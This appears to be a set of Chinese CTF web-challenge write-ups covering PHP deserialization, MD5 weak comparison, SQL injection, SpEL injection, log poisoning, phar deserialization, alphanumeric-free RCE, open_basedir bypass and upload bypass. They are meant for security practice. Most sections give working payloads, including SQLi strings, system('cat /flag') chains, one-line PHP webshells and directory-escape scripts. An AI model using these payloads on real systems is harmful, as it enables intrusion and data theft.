


# 2023/12/4
# [SWPUCTF 2022 新生赛] ez_1zpop
# 反序列化，弱比较，php 代码审计。
<?php | |
error_reporting(0); | |
class dxg | |
{ | |
function fmm() | |
{ | |
return "nonono"; | |
} | |
} | |
class lt | |
{ | |
public $impo='hi'; | |
public $md51='weclome'; | |
public $md52='to NSS'; | |
function __construct() | |
{ | |
$this->impo = new dxg; | |
} | |
function __wakeup() | |
{ | |
$this->impo = new dxg; | |
return $this->impo->fmm(); | |
} | |
function __toString() | |
{ | |
if (isset($this->impo) && md5($this->md51) == md5($this->md52) && $this->md51 != $this->md52) | |
return $this->impo->fmm(); | |
} | |
function __destruct() | |
{ | |
echo $this; | |
} | |
} | |
class fin | |
{ | |
public $a; | |
public $url = 'https://www.ctfer.vip'; | |
public $title; | |
function fmm() | |
{ | |
$b = $this->a; | |
$b($this->title); | |
} | |
} | |
if (isset($_GET['NSS'])) { | |
$Data = unserialize($_GET['NSS']); | |
} else { | |
highlight_file(__file__); | |
} |
这道题目链子很简单，关键点就在于绕过 wakeup 函数和 md5，
序列化触发__wakeup,__destruct，__wakeup 方法中，给 impo 实例一个 dxg 对象，并直接 return，无法获取有效信息，绕过__wakeup 的方法很简单，只需要将反序列化后的字符串，将对象属性数量改大，如，O:3:“fin”:3:{s:1:“a”;N;s:3:“url”;N;s:5:“title”;N;} => O:3:“fin”:4:
__destruct 方法触发就很简单了，将自己当字符串输出，直接触发__toString 方法，返回 fmm 方法，至于 md5 加密是一个弱比较：
//md5 ($this->md51) == md5 ($this->md52) 弱等于 | |
// s155964671a =md5=> 0e342768416822451524974117254469 | |
// s214587387a =md5=> 0e848240448830537924465865611904 |
/?NSS=O:2:"lt":4:{s:4:"impo";O:3:"fin":3:{s:1:"a";s:6:"system";s:3:"url";s:21:"https://www.ctfer.vip";s:5:"title";s:9:"cat /flag";}s:4:"md51";s:11:"s155964671a";s:4:"md52";s:11:"s878926199a";} |
# [GDOUCTF 2023]<ez_ze>
# Jinja2,SSTI，vim 泄露
经测试，禁用了_ . [] \ request pop os popen 等，
绕过。可以通过使用 attr () 绕过，然后这里的 lipsum 用 测了一下发现是个方法
<function generate_lorem_ipsum at 0x7fcddfa296a8>
然后用他直接调用__globals__发现可以直接执行 os 命令，测了一下发现__builtins__也可以用，又学到了一种新方法，只能说师傅们 tql

# 2023/12/5
# [SWPUCTF 2022 新生赛] ez_sql
# SQL 注入，空格绕过，双写绕过
进入题目：
年轻的 Web 手啊！
看题目名就知道你该干嘛了吧～
用相对安全的方式传参吧
奥对了参数是 nss
post 传参 nss=1,
得到：
Flag: NSSCTF
This is true flag: NSSCTF
假的 flag，参数为 1 的时候没有报错，为 2 和任何数的时候报，发现空格被过滤了，然后 union 需要双拼写
0'/**/ununionion/**/select/**/1,2,3;#
发现存在 3 个
Flag: 2
This is true flag: 3
数据库为 NSS_db
测表：
2'/**/ununionion/**/select/**/1,database(),group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema='NSS_db'#
得到：NSS_tb 和 users
查表的字段发现 flag
nss=2'/**/ununionion/**/select/**/1,database(),group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='NSS_tb';#
Flag: NSS_db
This is true flag: id,Secr3t,flll444g
查字段的数据
nss=2'/**/ununionion/**/select/**/1,group_concat(Secr3t),group_concat(flll444g)/**/from/**/NSS_tb;#
得到 flag。
# [NISACTF 2022]join-us
# 报错注入
看着很唬人，在登录界面看到：
can u get flag ?
输入 1 得到结果：
message: txw4ever
输入 1'# 发现正常显示。
用 fuzz 字典模糊测试一下过滤了哪些关键字，过滤了很多，但可以使用 extractvalue 来进行报错注入，空格可以使用 /**/ 或者 () 绕过。
首先得绕过 database ()
这里其实我们可以通过报错来实现
database 里面的 as 被过滤，通过查询一个不存在的表，通过报错获得表名
-1' || (select * from aa)#或者
1'|a()%23 |
FUNCTION sqlsql.a does not exist
1'||extractvalue(1,0x7e)#
报表
1'||extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema like 'sqlsql')))#
XPATH syntax error: '~Fal_flag,output'
1'||extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name like 'sqlsql')))#
然后发现字段报不了。
这时候就可以参考这篇文章：
mysql 注入可报错时爆表名、字段名、库名
所以：
tt=1'||extractvalue(1,concat(0x7e,(select * from (select * from Fal_flag a join Fal_flag b using(id,data)) c)))#
Duplicate column name 'i_tell_u_this_is_Fal(se)_flag_is_in_another'
发现不是这个
那么就去爆另一个吧
tt=1'||extractvalue(1,concat(0x7e,(select * from (select * from output a join output b using(data)) c)))#
# 2023/12/7
# ezjava
# spel 注入
关于 spel 注入分析可以参考这篇文章：
SpEL 注入 RCE 分析与绕过
先附上靶场链接：www.polarctf.com
ezjava 这道题给了个 jar 包，所以先下载下来反编译看看怎么个事。
反编译后看到这串代码：
package com.example.demo.controller; | |
import org.springframework.expression.ExpressionParser; | |
import org.springframework.expression.spel.standard.SpelExpressionParser; | |
import org.springframework.expression.spel.support.StandardEvaluationContext; | |
import org.springframework.web.bind.annotation.RequestMapping; | |
import org.springframework.web.bind.annotation.RestController; | |
@RequestMapping({"/SPEL"}) | |
@RestController | |
/* loaded from: demo1-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/com/example/demo/controller/spel.class */ | |
public class spel { | |
@RequestMapping({"/vul"}) | |
public String spelVul(String ex) { | |
ExpressionParser parser = new SpelExpressionParser(); | |
String result = parser.parseExpression(ex).getValue(new StandardEvaluationContext()).toString(); | |
System.out.println(result); | |
return result; | |
} | |
} |
熟悉 Java 的朋友就可以一眼定真，这不是 spel 表达式注入嘛？
ex 参数没有任何过滤直接打就可。
路由： /SPEL/vul ，可以看到 2-1 确实返回了运算结果，说明能解析。
由在 /SPEL/vul
没有过滤的 SPEL 注入，直接参考 Boogipop 的博客
payload：
/SPEL/vul?ex=new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("/bin/bash","-c","cat /app/flag.txt").start().getInputStream(), "gbk")).readLine() |
# 2023/12/8
# [HNCTF 2022 WEEK2]easy_include
# Nginx，文件包含，日志包含
进入题目：
<?php | |
//WEB 手要懂得搜索 | |
if(isset($_GET['file'])){ | |
$file = $_GET['file']; | |
if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){ | |
die("error"); | |
} | |
include($file); | |
}else{ | |
highlight_file(__FILE__); | |
} |
过滤了很多，伪协议近乎全军覆没，但是没有关系，我们可以使用日志包含。
关于日志包含：
日志包含漏洞属于是本地文件包含，同样服务器没有很好的过滤，或者是服务器配置不当导致用户进入了内网，本来常规用户是访问不了这些文件的，但由于发起访问请求的人是服务器本身，也就导致用户任意文件读取。
原理：
apache 服务器日志存放文件位置：/var/log/apache/access.log
apache 日志文件存放着我们输入的 url 参数

我们可以通过在 url 参数中写入一句话木马，进行执行，从而将一句话木马写入到日志文件中，我们可以通过包含写入木马的日志文件，从而进行命令执行。
nginx 服务器日志存放位置：/var/log/nginx/access.log 和 /var/log/nginx/error.log
发送请求
GET /?file=/var/log/nginx/access.log HTTP/1.1
发现回显出的结果存在 User-Agent 的内容，所以可在在这里进行命令执行。
由于 include 会把文件当成 php 文件执行，所以我们可以这样写：
GET /?file=/var/log/nginx/access.log HTTP/1.1 | |
Host: node5.anna.nssctf.cn:28449 | |
Upgrade-Insecure-Requests: 1 | |
User-Agent: <?php system('cat /f*'); ?> | |
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 | |
Accept-Encoding: gzip, deflate | |
Accept-Language: zh-CN,zh;q=0.9 |
这里 system 中不能用双引号，否则会和 index 文件中的 include 函数中的双引号起冲突。
# [SWPUCTF 2022 新生赛] webdog1__start
# RCE,md5 碰撞，PHP
题目描述：
年轻的webdog哦，如果连这关都创不过还是去卷pwn和re吧 |
这道题目进入后检查网页源代码看到：
<!-- | |
if (isset($_GET['web'])) | |
{ | |
$first=$_GET['web']; | |
if ($first==md5($first)) | |
--> |
一般的 md5 绕过是传入 0e 开头的 md5 值，因为在弱比较时，弱比较中会截取一个字符串的数字，直到遇到字符截止，对于 0e + 数字的值只会截取 e 之前的 0，所以这里即便是令传入的 md5 值等于 $md5 后还需要等于其自身进行 md5 的值，我们选取 0e 或者加密后仍为 0e 开头的数就行例如：0e215962017
这里我尝试写了一个脚本：
import hashlib | |
import random | |
import string | |
import threading | |
def generate_md5(string): | |
return hashlib.md5(string.encode()).hexdigest() | |
def generate_random_string(): | |
length = random.randint(0, 10) | |
hex_chars = string.hexdigits | |
return ''.join(random.choice(hex_chars) for _ in range(length)) | |
def find_collision(): | |
while True: | |
random_part = generate_random_string() | |
test_string = f'0e{random_part}' | |
hash_result = generate_md5(test_string) | |
if ( | |
hash_result.startswith('0e') | |
and hash_result[2:] | |
): | |
print(f"找到 '{test_string}' 的碰撞") | |
print(f"MD5 哈希值: {hash_result}") | |
return test_string, hash_result | |
def find_collision_with_threads(): | |
num_threads = 10 # 可以调整线程数量 | |
threads = [] | |
for _ in range(num_threads): | |
thread = threading.Thread(target=find_collision) | |
thread.start() | |
threads.append(thread) | |
for thread in threads: | |
thread.join() | |
if __name__ == "__main__": | |
find_collision_with_threads() |
但是得出的结果并不能生效，找了下原因发现是 0e 后面必须是十进制数字，然后我这个脚本换成十进制又报不出来。
所以只能记住这个关键的 0e215962017
然后进入 start.php 界面，点了一圈后都是 Not Found，
检查源代码看见；
<a href="#" aria-label="Next"do you know the power of bot? go go go!!>
那就访问以下 robots.txt 文件试试；
哈哈哈，看来你还是有备而来，我的一切财宝都藏在f14g.php里面了，去找吧！ |
靠！如果一开始就访问 robots.txt 就没前面的事情了...
访问 /f14g.php，得到
oh ! i can't believe you think flag really be here hhhh
在响应包看到：
Hint:
oh good job! but no flag ,come to F1l1l1l1l1lag.php
访问 / F1l1l1l1l1lag.php：
<?php | |
error_reporting(0); | |
highlight_file(__FILE__); | |
if (isset($_GET['get'])){ | |
$get=$_GET['get']; | |
if(!strstr($get," ")){ | |
$get = str_ireplace("flag", " ", $get); | |
if (strlen($get)>18){ | |
die("This is too long."); | |
} | |
else{ | |
eval($get); | |
} | |
}else { | |
die("nonono"); | |
} | |
} | |
?> |
绕过空格和 flag 啊，那很简单：
/F1l1l1l1l1lag.php?get=system("cat%09/f*");
结束。
# [NSSRound#4 SWPU]1zweb
# 文件上传，phar 反序列化
非预期解很简单，利用伪协议 file:///flag 即可读取到 flag。
但是我们是来学习知识的，当然得尝试预期解：
首先查看以下 index.php 的源码：
<?php | |
class LoveNss{ | |
public $ljt; | |
public $dky; | |
public $cmd; | |
public function __construct(){ | |
$this->ljt="ljt"; | |
$this->dky="dky"; | |
phpinfo(); | |
} | |
public function __destruct(){ | |
if($this->ljt==="Misc"&&$this->dky==="Re") | |
eval($this->cmd); | |
} | |
public function __wakeup(){ | |
$this->ljt="Re"; | |
$this->dky="Misc"; | |
} | |
} | |
$file=$_POST['file']; | |
if(isset($_POST['file'])){ | |
echo file_get_contents($file); | |
} |
关于 phar 反序列化可以参考这篇文章：
PHP Phar 反序列化学习
file_get_content 可以触发 phar 反序列化，只需绕过__wakeup 即可
然后我们再查看 upload.php 文件：
<?php | |
if ($_FILES["file"]["error"] > 0){ | |
echo "上传异常"; | |
} | |
else{ | |
$allowedExts = array("gif", "jpeg", "jpg", "png"); | |
$temp = explode(".", $_FILES["file"]["name"]); | |
$extension = end($temp); | |
if (($_FILES["file"]["size"] && in_array($extension, $allowedExts))){ | |
$content=file_get_contents($_FILES["file"]["tmp_name"]); | |
$pos = strpos($content, "__HALT_COMPILER();"); | |
if(gettype($pos)==="integer"){ | |
echo "ltj一眼就发现了phar"; | |
}else{ | |
if (file_exists("./upload/" . $_FILES["file"]["name"])){ | |
echo $_FILES["file"]["name"] . " 文件已经存在"; | |
}else{ | |
$myfile = fopen("./upload/".$_FILES["file"]["name"], "w"); | |
fwrite($myfile, $content); | |
fclose($myfile); | |
echo "上传成功 ./upload/".$_FILES["file"]["name"]; | |
} | |
} | |
}else{ | |
echo "dky不喜欢这个文件 .".$extension; | |
} | |
} | |
?> |
同样对上传的文件进行了 gif、jpeg、jpg、png 的后缀名检测， 并且在上传的文件内容中搜索__HALT_COMPILER (); 第一次出现的位置，搜索到即 echo 发现 phar，否则如果文件不存在则上传成功。
除此之外还对 phar 文件内容进行检测，要求不能存在
"__HALT_COMPILER();"
可以将文件压缩为 zip 文件，并把后缀改为 png 文件，这样文件内容和后缀白名单检测都绕过了
然后由于需要绕过 wakeup，因为是后面自己去改的数据，而 phar 文件的签名是第一次生成文件的时候自动生成的，所以当我们修改数据过后，由于签名错误，这个 phar 是无法被正常解析的，所以需要修改签名，让他变成一个正常的 phar 文件还需要对 phar 文件进行修改
以下为脚本：
<?php | |
class LoveNss{ | |
public $ljt="Misc"; | |
public $dky="Re"; | |
public $cmd="system('cat /flag');"; | |
} | |
$a = new LoveNss(); | |
echo serialize($a); | |
# 下面这部分就没改 | |
$phar = new Phar("phar.phar"); | |
$phar->startBuffering(); | |
$phar->setStub("<?php __HALT_COMPILER(); ?>"); // 设置 stub | |
$phar->setMetadata($a); // 将自定义的 meta-data 存入 manifest | |
$phar->addFromString("test.txt", "test"); // 添加要压缩的文件 | |
// 签名自动计算 | |
$phar->stopBuffering(); |
from hashlib import sha1 | |
with open('phar.phar', 'rb') as file: | |
f = file.read() | |
s = f[:-28] # 获取要签名的数据 | |
h = f[-8:] # 获取签名类型和 GBMB 标识 | |
newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB) | |
with open('newtest.phar', 'wb') as file: | |
file.write(newf) # 写入新文件 |
改完签名后，再压缩成 zip，最后改为.jpg 的后缀，来绕过__HALT_COMPILER ();
<?php
system("gzip newtest.phar");
// 将压缩后的1.phar文件重命名为1.jpg
rename("newtest.phar.gz", "1.jpg");
然后查看 phar://upload/1.jpg，即可获取 flag。
# 2023/12/18
# [SWPUCTF 2021 新生赛] hardrce_3
# 无字母 rce，自增绕过，diable_function 绕过，open_basedir 绕过
进入题目：
<?php | |
header("Content-Type:text/html;charset=utf-8"); | |
error_reporting(0); | |
highlight_file(__FILE__); | |
if(isset($_GET['wllm'])) | |
{ | |
$wllm = $_GET['wllm']; | |
$blacklist = [' ','\^','\~','\|']; | |
foreach ($blacklist as $blackitem) | |
{ | |
if (preg_match('/' . $blackitem . '/m', $wllm)) { | |
die("小伙子只会异或和取反？不好意思哦LTLT说不能用！！"); | |
}} | |
if(preg_match('/[a-zA-Z0-9]/is',$wllm)) | |
{ | |
die("Ra'sAlGhul说用字母数字是没有灵魂的！"); | |
} | |
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？"; | |
eval($wllm); | |
} | |
else | |
{ | |
echo "蔡总说：注意审题！！！"; | |
} | |
?> 蔡总说：注意审题！！！ |
关于无字母 rce，可以参考这两篇文章：
RCE 篇之无数字字母 rce
无数字字母 rce 总结（取反、异或、自增、临时文件）
这里我们:
?wllm=$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]); |
相当于传入
eval($_POST[_]); |
注意这里由于有特殊字符的存在得进行一次 url 编码，
?wllm=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B |
尝试执行发现大部分命令执行指令都过滤了，同时设置了 open_basedir，无法看到文件，甚至还用 disabled_function 禁用了很多函数（system,exec 等)，但可以用 file_put_contents 函数绕过
_=file_put_contents('1.php','<?php eval($_POST['aa']);?>'); |
或者：
_=file_put_contents('1.php',"<?php print_r(ini_get('open_basedir').'<br>'); mkdir('test'); chdir('test'); ini_set('open_basedir','..'); chdir('..'); chdir('..'); chdir('..'); ini_set('open_basedir','/'); echo file_get_contents('/flag'); print(1);?> "); |
关于绕过 open_basedir，可以参考这两篇文章：
PHP 绕过 open_basedir 列目录的研究
php 绕过 open_basedir
留几个 open_basedir 绕过脚本
获取目录
<?php | |
print_r(ini_get('open_basedir').'<br>'); | |
$dir_array = array(); | |
$dir = new DirectoryIterator('glob:///*'); | |
foreach($dir as $d){ | |
$dir_array[] = $d->__toString(); | |
} | |
$dir = new DirectoryIterator('glob:///.*'); | |
foreach($dir as $d){ | |
$dir_array[] = $d->__toString(); | |
} | |
sort($dir_array); | |
foreach($dir_array as $d){ | |
echo $d.' '; | |
} | |
?> |
<?php | |
print_r(ini_get('open_basedir').'<br>'); | |
$dir_array = array(); | |
$dir = new FilesystemIterator('glob:///*'); | |
foreach($dir as $d){ | |
$dir_array[] = $d->__toString(); | |
} | |
$dir = new FilesystemIterator('glob:///.*'); | |
foreach($dir as $d){ | |
$dir_array[] = $d->__toString(); | |
} | |
sort($dir_array); | |
foreach($dir_array as $d){ | |
echo $d.' '; | |
} | |
show_source(__FILE__); | |
?> |
读取文件
<?php | |
show_source(__FILE__); | |
print_r(ini_get('open_basedir').'<br>'); | |
mkdir('test'); | |
chdir('test'); | |
ini_set('open_basedir','..'); | |
chdir('..'); | |
chdir('..'); | |
chdir('..'); | |
ini_set('open_basedir','/'); | |
echo file_get_contents('/etc/hosts'); | |
?> |
<?php | |
show_source(__FILE__); | |
mkdir("1");chdir("1"); | |
mkdir("2");chdir("2"); | |
mkdir("3");chdir("3"); | |
mkdir("4");chdir("4"); | |
chdir("..");chdir("..");chdir("..");chdir(".."); | |
symlink("1/2/3/4","tmplink"); | |
symlink("tmplink/../../../../etc/hosts","bypass"); | |
unlink("tmplink"); | |
mkdir("tmplink"); | |
echo file_get_contents("bypass"); | |
?> |
# [SWPUCTF 2022 新生赛] funny_php
# MD5 绕过，弱比较绕过。
题目：
<?php | |
session_start(); | |
highlight_file(__FILE__); | |
if(isset($_GET['num'])){ | |
if(strlen($_GET['num'])<=3&&$_GET['num']>999999999){ | |
echo ":D"; | |
$_SESSION['L1'] = 1; | |
}else{ | |
echo ":C"; | |
} | |
} | |
if(isset($_GET['str'])){ | |
$str = preg_replace('/NSSCTF/',"",$_GET['str']); | |
if($str === "NSSCTF"){ | |
echo "wow"; | |
$_SESSION['L2'] = 1; | |
}else{ | |
echo $str; | |
} | |
} | |
if(isset($_POST['md5_1'])&&isset($_POST['md5_2'])){ | |
if($_POST['md5_1']!==$_POST['md5_2']&&md5($_POST['md5_1'])==md5($_POST['md5_2'])){ | |
echo "Nice!"; | |
if(isset($_POST['md5_1'])&&isset($_POST['md5_2'])){ | |
if(is_string($_POST['md5_1'])&&is_string($_POST['md5_2'])){ | |
echo "yoxi!"; | |
$_SESSION['L3'] = 1; | |
}else{ | |
echo "X("; | |
} | |
} | |
}else{ | |
echo "G"; | |
echo $_POST['md5_1']."\n".$_POST['md5_2']; | |
} | |
} | |
if(isset($_SESSION['L1'])&&isset($_SESSION['L2'])&&isset($_SESSION['L3'])){ | |
include('flag.php'); | |
echo $flag; | |
} | |
?> | |
:DwowNice!yoxi!NSSCTF{f0639d58-6fb2-4499-846a-a3ed3a929a5f} |
很简单：
GET:
/?num=1e9&str=NSNSSCTFSCTF
POST:
md5_1=sonZ7y&md5_2=aabC9RqS
# [MoeCTF 2022]what are y0u uploading？
# 文件上传，截包绕过
这题主要是前端检验，直接禁 js 或者直接 bp，上传一个 f1ag.php
POST /upload.php HTTP/1.1 | |
Host: node5.anna.nssctf.cn:28533 | |
Origin: http://node5.anna.nssctf.cn:28533 | |
Accept-Language: zh-CN,zh;q=0.9 | |
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 | |
Referer: http://node5.anna.nssctf.cn:28533/ | |
Cache-Control: max-age=0 | |
Upgrade-Insecure-Requests: 1 | |
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 | |
Accept-Encoding: gzip, deflate | |
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9bDlwasnqKWclnZA | |
Content-Length: 316 | |
------WebKitFormBoundary9bDlwasnqKWclnZA | |
Content-Disposition: form-data; name="file"; filename="f1ag.php" | |
Content-Type: image/jpeg | |
GIF89a | |
<?php eval($_POST['cmd']);?> | |
------WebKitFormBoundary9bDlwasnqKWclnZA | |
Content-Disposition: form-data; name="submit" | |
提交 | |
------WebKitFormBoundary9bDlwasnqKWclnZA-- |
# [NCTF 2018] flask 真香
# Jinja2,flask
fuzz 一波
禁用了这些
class
getattr
builtins
import
os
popen
拼接绕过即可。
